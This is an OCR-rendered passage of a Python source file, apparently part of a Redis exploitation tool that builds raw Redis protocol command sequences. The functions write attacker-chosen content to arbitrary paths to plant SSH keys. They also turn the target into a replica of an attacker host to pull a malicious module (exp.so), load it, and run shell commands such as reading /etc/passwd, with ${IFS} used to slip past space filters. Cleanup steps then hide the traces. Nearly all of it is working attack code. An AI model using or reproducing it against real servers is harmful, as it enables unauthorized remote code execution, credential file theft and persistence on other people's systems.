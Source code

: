 ```python
    return cmd


def generate_sshkey(filename, path, passwd, payload):
    cmd = ["flushall",
           "set 1 {}".format(payload),
           "config set dir {}".format(path),
           "config set dbfilename {}".format(filename),
           "save"
           ]
    if passwd:
        cmd.insert(0, "AUTH {}".format(passwd))
    return cmd


def generate_rce(lhost, lport, passwd, command="cat /etc/passwd"):
    exp_filename = "exp.so"
    cmd = [
        
        "CONFIG SET dir /tmp/",
        "config set dbfilename {}".format(exp_filename),
        "SLAVEOF {} {}".format(lhost, lport),
        "MODULE LOAD /tmp/{}".format(exp_filename),
        "system.exec {}".format(command.replace(" ", "${IFS}")),
         "SLAVEOF NO ONE",
        # "CONFIG SET dbfilename dump.rdb",
        # "system.exec rm${IFS}/tmp/{}".format(exp_filename),
        # "MODULE UNLOAD system",
        "POST"
    ]
    if passwd:
        cmd.insert(0, "AUTH {}".format(passwd))
    return cmd


def rce_cleanup():
    exp_filename = "exp.so"
    cmd = [
        "SLAVEOF NO ONE",
        "CONFIG SET dbfilename dump.rdb",
        "system.exec rm${IFS}/tmp/{}".format(exp_filename),
        "MODULE UNLOAD system",
        "POST"
    ]
    if passwd:
        cmd.insert(0, "AUTH {}".format(passwd))
    return cmd


def redis_format(arr):
    CRLF = "\r\n"
    redis_arr = arr.split(" ")
    cmd = ""
    cmd += "*" + str(len(redis_arr))
    for x in redis_arr:
        cmd += CRLF + "$" + str(len((x))) + CRLF + x
    cmd += CRLF
    return cmd


def generate_payload(ip, port, passwd, mode):
    payload = "test"

```